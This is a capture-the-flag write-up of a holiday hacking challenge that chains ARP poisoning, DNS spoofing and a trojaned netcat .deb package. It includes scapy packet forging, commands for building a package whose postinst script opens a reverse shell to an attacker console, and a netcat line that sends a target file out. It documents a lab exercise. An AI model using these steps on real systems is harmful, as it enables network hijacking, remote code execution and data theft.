


# ARP Shenanigans - (Arping Aroubd)
This challenge required spoofing and end point by launching an ARP poisoning attack, DNS hijacking, and endpoint impersonation to get the victim to download a malicious file and execute malicious code. This challenge can was broken down into stages. Each step required a different attack to advance the overall campaign. The end goal, is to exfiltrate the contents of the file `/NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt` on the victim machine.
## Initial Enumeration
Initially enumerating the machine provided, some observations can be made about what how this challenge will unfold.
* apy_res.py
    * Indicates ARP spoofing is likely
* dns_res.py
    * indicates DNS spoofing is likely
* HELP.md
    * Talks about tcdump and tshark
    * Will need/have the ability to packet capture
    * Says we can launch a web browser using the python3 module on port 80
* tcpdump -i eth0
    * See a constant ARP request from a remote host
* Sample packet captures
    * Give a ARP Request / ARP Response pair
    * Give a DNS Request / UDP Response pair

Piecing it together, it seems the campaign will have the following steps
1. Spoof ARP to redirect to 'Us' DNS
2. Spoof DNS request to point to 'Us' HTTP Server
3. Serve out malicious site, probably a reverse web shell (msfvenom -p php/reverse_php)
## ARP Poisoning
This one is pretty straight forward. Just need to reply with an ARP Reply pointing the IP address they are asking for to our MAC address. [This guide](http://www.tcpipguide.com/free/t_ARPMessageFormat.htm) provides a good breakdown on the values and fields for the ARP response. In this, the `is-at` response will will be the attacker (us) MAC address so the victim will believe the IP address they are ARPing for is the attacker (us).

### Incoming Request
```
###[ ARP ]### 
  hwtype    = 0x1
  ptype     = IPv4
  hwlen     = 6
  plen      = 4
  op        = who-has
  hwsrc     = 4c:24:57:ab:ed:84
  psrc      = 10.6.6.35
  hwdst     = 00:00:00:00:00:00
  pdst      = 10.6.6.53

```
### Outgoing Request
--- indicates these fields need to to be changed to this value
```
 ###[ ARP ]### 
  hwtype    = 0x2	---
  ptype     = IPv4
  hwlen     = 6
  plen      = 4
  op        = is-at (0x02) --
  hwsrc     = 02:42:0a:06:00:03 --
  psrc      = 10.6.6.53 --
  hwdst     = 4c:24:57:ab:ed:84 --
  pdst      = 10.6.6.35 --
```
### Testing
This ARP packet was tested by constructing it via `scapy` and printing it make sure it matched the expected value above.
Sample constructed with the following code
```python
if __name__ == "__main__":
    a = ARP(pdst="10.6.6.35")

    a.op = 2 # arp reply
    a.plen = 4
    a.hwlen = 6
    a.ptype = 2048
    a.hwtype = 1
    a.hwsrc = "02:42:0a:06:00:03"
    a.psrc = "10.6.0.3"
    a.pdst = "10.6.6.35"
    a.hwdst = "4c:24:57:ab:ed:84"
    a.show()
```
```bash
###[ ARP ]###
  hwtype    = 0x1
  ptype     = IPv4
  hwlen     = 6
  plen      = 4
  op        = is-at
  hwsrc     = 02:42:0a:06:00:03
  psrc      = 10.6.0.3
  hwdst     = 4c:24:57:ab:ed:84
  pdst      = 10.6.6.35
```

These changes have been replicated into [arp_res.py](arp_res.py) python script.
### Results
After poisoning the ARP request/response flow, the victim then issues a DNS request to the poisoned address. This validates the first guess during enumeration that DNS spoofing would be required.

## DNS Spoofing
The next step now that the ARP request/response has been hijacked is to respond to the DNS request with the attacker address. In this case, the DNS response will point to the 'real' IP address of the attacker rather than rely on the ARP cache fo rthe DNS server address which was spoofed earlier.
### DNS Resquest
The DNS request was dumped in a modified version of `dns_res.py` to see fields in `scapy` terms. Interestingly, its going to what might be an FTP site. Which may mean the next stage is an FTP connection on port 21.
```
###[ DNS ]### 
           id        = 0
           qr        = 0
           opcode    = QUERY
           aa        = 0
           tc        = 0
           rd        = 1
           ra        = 0
           z         = 0
           ad        = 0
           cd        = 0
           rcode     = ok
           qdcount   = 1
           ancount   = 0
           nscount   = 0
           arcount   = 0
           \qd        \
            |###[ DNS Question Record ]### 
            |  qname     = 'ftp.osuosl.org.'
            |  qtype     = A
            |  qclass    = IN
           an        = None
           ns        = None
           ar        = None


```
### DNS Response
The ARP and UDP portions of the packets where pretty stright forward to pull from the incoming packet and populate. The DNS response for the most part was just copied from the initial request, the only section being added is the answer field via a `DNSRR`. In this case, the response will want to respond with and `A` record and the `rdata` set to the attacker legimitate IP address. Fun fact, if you pass `type="CNAME"` rather than `A`, the [challenge crashes](https://github.com/CounterHack/HolidayHack2020/issues/34).
```
###[ DNS ]### 
           id        = 0
           qr        = 0
           opcode    = QUERY
           aa        = 0
           tc        = 0
           rd        = 1
           ra        = 0
           z         = 0
           ad        = 0
           cd        = 0
           rcode     = ok
           qdcount   = 1
           ancount   = 1
           nscount   = 0
           arcount   = 0
           \qd        \
            |###[ DNS Question Record ]### 
            |  qname     = 'ftp.osuosl.org.'
            |  qtype     = A
            |  qclass    = IN
           \an        \
            |###[ DNS Resource Record ]### 
            |  rrname    = 'ftp.osuosl.org.'
            |  type      = A 
            |  rclass    = IN
            |  ttl       = 0
            |  rdlen     = None
            |  rdata     = '10.6.0.2'
           ns        = None
           ar        = None
```
### Testing
I attempted to test this in docker however I could not get `dig` or `nslookup` to actually send UDP requests to localhost which I was listening. 

In the end, just did a sample DNS request to google, printed it (in scapy) and compared each field side by side with a dummy DNS packet created in scapy with the fields that need to be modified.

### Results
After getting the response correct, the victim acts on the malicious DNS response and starts a TCP connection to the attacker via port 80.


However, the packet captures did not capture the actual HTTP request, so the python3 http server was launched to capture the HTTP request. 


## HTTP Response Poisoning
Now that the HTTP response is known, a malicious payload can be constructed to push malicious code to the victim. The server is requesting a `.deb` file which is a debian installable package. Likely, given the challenge, once the package is pulled down, the victim will install the package (e.g. `dpkg -i <DPKG.deb>`). This will require root permissions so if code can be embedded into the dpkg then it will execute as root. I've done package manipulation before via [RPM](https://github.com/ryohare/cheatsheets/blob/master/rpmsuid.md), so the same is possible with dpkg, just requires some research. Going back to some interesting things observed during initial enumeration, there is a debs folder with a bunch of dpkg installation files. Poking around the box, most are not installed meaning they must be their for another reason. Likely to provide a base dpkg to embed malicious code. Just doing some basic thinking, the netcat package can/will be used because it will give uas a potential vector for data exfiltration client side in the case the victim machine doesn't have netcat installed.
### Getting GET headers
A little more recon to be done before attempting the attack. Want to know the HTTP headers on the GET request incase there is any useful information. This can be grabbed via tcpdump, logging the requests then viewing them in ascii.
```bash
tcpdump -i eth0 -nn -w capt.pcap not arp
tcpdump -nnr capt.pcap -A | less
```

All that really told is that curl is the user-agent so this is probably a script (shocking).

### Making a Malicious Deb
Found [this](https://github.com/UndeadSec/Debinject) resource which helped in stepping through the malicious deb creation process. Basically, the gist is that here is a `postinst` script which runs post installation to do processing on the new binaries. This script, if we control the package is remote code execution. So, code will be embedded here. Below are the shell commands with annotations, run on the challenge console to create the malicious package.
```bash
cd debs

# extract the targeted deb file for tamerping
dpkg -x netcat-traditional_1.10-41.1ubuntu1_amd64.deb deb
cd deb

# make the debian build package file structure
mkdir DEBIAN
cd debian

# make the control file.
# This is the mackage metadata
# copy and paste from nc_deb/DEBIAN/control
vim control

# this is the main attack script
# instructions to run post installation
# copy and paste from nc_deb/DEBIAN/postinst, change IP to console IP
# initial version had a reverse shell 
#   nc <CONSOLE_IP> 4343 -e bash &
vim postinst
chmod 555 postinst

# make the package
dpkg-deb --build ../

# make the http server file system
mkdir -p pub/jfrost/backdoor

# move the deb to the proper location
mv ...deb pub/jfrost/backdoor/suriv_amd64.deb

# serve and wait - move to a new window for other commands
python3 http.server 80
```
### Malicious Deb Testing
This was tested using an ubuntu docker image. Run the attacker nc listener `nc -nlvp 4343` on the localhost and install the malicious package on the image. The `postinst` script will need to be updated to reflect the IPs of the local system. Tested and verified.
### Results
Reverse shell failure. For whatever reason the reverse shell reaches back and creates the connection to the listener but it does not get an interactive sessions. After some proponderance of the evidence, likely the process is killed by a watchdog monitoring the dpkg installation process. I also tried a bind shell which too did not work, likely because of the same reason.

Since the netcat process was able to open a session, it may be possible to cat out the contents to the target file before the session gets killed. This is done by modifying the `postinst` script to read the file rather then exec a reverse shell. `nc $CONSOLE_IP 4343 < /NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt`. After making these changes the contents of the file are captured by the netcat listener!

